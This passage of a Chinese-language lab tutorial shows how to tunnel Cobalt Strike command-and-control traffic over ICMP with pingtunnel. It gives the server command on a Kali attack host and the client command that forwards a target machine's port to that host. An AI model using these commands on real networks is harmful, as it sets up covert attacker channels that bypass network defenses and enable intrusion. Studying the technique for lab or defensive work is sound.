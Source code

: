 ![image-20241022234914311](内网隧道代理技术/image-20241022234914311.png)	

### ICMP实现隧道上线CS

```
实验环境:
kali攻击机(192.168.15.141)，用于模拟VPS
靶机win7(192.168.15.115和192.168.50.160)
1、攻击机开启服务端。
./pingtunnel -type server
```

![image-20241023124254059](内网隧道代理技术/image-20241023124254059.png)	

```
2.开启客户端，注意一定要以管理员权限打开，否则运行不成功
将本地机器的9999端口的数据转发到kali机器的7777端口。这里是使用ICMP协议进行数据转发。
pingtunnel.exe -type client -l :9999 -s 192.168.15.141 -t 192.168.15.141:7777 -tcp 1
```

![image-20241023124413398](内网隧道代理技术/image-20241023124413398.png)	
